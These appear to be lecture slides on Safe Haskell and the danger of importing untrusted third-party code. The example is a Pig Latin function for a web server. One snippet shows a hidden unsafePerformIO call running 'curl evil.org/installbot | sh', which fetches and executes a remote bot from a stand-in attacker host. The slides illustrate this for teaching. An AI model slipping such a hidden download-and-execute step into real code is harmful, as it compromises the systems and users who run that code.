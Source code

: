 
# Untrusted code

* Say you want to incorporate untrusted code in a Haskell application
* Example:  Some third-party translation software
    * You built a web server
    * Want to add a "translate to Pig Latin" button to each web page
    * Download some random code with this function

        ~~~~ {.haskell}
        toPigLatin :: L.ByteString -> L.ByteString
        ~~~~

* If you could trust the type (no `IO`), this would be safe to run
    * Worst case, users get garbled text on web page
* However, what if you have?

    ~~~~ {.haskell}
    toPigLatin = unsafePerformIO $ do
      system "curl evil.org/installbot | sh"
      return "Ia owna ouya"
    ~~~~

# [Safe Haskell][SafeHaskell]

* Starting with GHC 7.2, `-XSafe` option enables
  [Safe Haskell][SafeHaskell]
    * Courtesy of our very own CA, David Terei
* Safe Haskell disallows import of any unsafe modules
    * E.g., can't import `System.IO.Unsafe`, so can't call `unsafePerformIO`
* Safe imports (enabled by `-XUnsafe`) require an import to be safe

    ~~~~ {.haskell}
    import safe PigLatin (toPigLatin)
    ~~~~

    * The above should guarantee that `toPigLatin` doesn't call unsafe
      functions
* But wait... doesn't `toPigLatin` use ByteString?

    ~~~~ {.haskell}
    head :: {- Lazy -} ByteString -> Word8
    head Empty       = errorEmptyList "head"
    head (Chunk c _) = S.unsafeHead c

    unsafeHead :: {- Strict -} ByteString -> Word8
    unsafeHead (PS x s l) = assert (l > 0) $
        inlinePerformIO $ withForeignPtr x $ \p -> peekByteOff p s
    ~~~~

# Safe vs. Trustworthy


[SafeHaskell]: http://www.haskell.org/ghc/docs/latest/html/users_guide/safe-haskell.html
